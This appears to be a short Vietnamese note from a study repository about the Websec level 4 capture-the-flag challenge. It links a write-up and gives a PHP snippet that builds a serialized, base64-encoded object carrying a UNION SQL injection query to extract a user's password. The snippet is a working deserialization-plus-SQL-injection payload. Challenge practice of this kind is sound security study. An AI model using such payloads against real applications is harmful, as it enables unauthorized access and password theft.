 # Áp dụng code php challenge lv4- Websec 
[Bai giai challenge](https://github.com/tinasahara1/Study/blob/06806e43fb45a714d64638c93810faae2a4708e5/WebSec/level4.md)

```php
<?php
//Tạo 1 đối tượng SQL với tham số $query 
class SQL {
    public $query='select username from users where id=1 union select password from users where id=1';
}
echo base64_encode(serialize(new SQL()));
?>
```
